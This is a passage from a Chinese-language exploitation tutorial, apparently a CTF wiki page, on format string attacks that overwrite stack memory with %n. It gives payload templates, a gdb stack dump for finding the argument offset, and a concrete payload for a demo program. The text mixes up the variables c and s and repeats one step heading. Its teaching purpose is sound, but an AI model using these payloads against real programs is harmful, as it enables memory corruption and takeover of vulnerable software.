 而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的 payload

```
...[overwrite addr]....%[overwrite offset]$n
```

其中...表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

---

#### 4.5 覆盖栈内存

- **确定覆盖地址**
  首先，我们自然是来想办法知道栈变量 c 的地址。由于目前几乎上所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们这里故意输出了 c 变量的地址。

- **确定相对偏移**
  其次，我们来确定一下存储格式化字符串的地址是 printf 将要输出的第几个参数。 这里我们通过之前的泄露栈变量数值的方法来进行操作。在 printf 处下断点，输入`%d%d`:

```gdb
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10     ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"     ← $eax

```

我们可以发现在 0xffffcd14 处存储着变量 s 的数值。继而，我们再确定格式化字符串`%d%d`的地址 0xffffcd28 相对于 `printf` 函数的格式化字符串参数 0xffffcd10 的偏移为 0x18，即格式化字符串相当于 `printf` 函数的第 7 个参数，相当于格式化字符串的第 6 个参数。

如果我们使用`[addr]%n`作为参数输入程序，那么程序就会将整型数字 4 写入地址为`[addr]`的地方。

- **确定相对偏移**
  这样，第 6 个参数处的值就是存储变量 `s` 的地址，我们便可以利用 `%n` 的特征来修改 `s` 的值。payload 如下

```
[addr of s]%012d%6$n
```

`addr of c` 的长度为 4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 `c` 的值为 16。
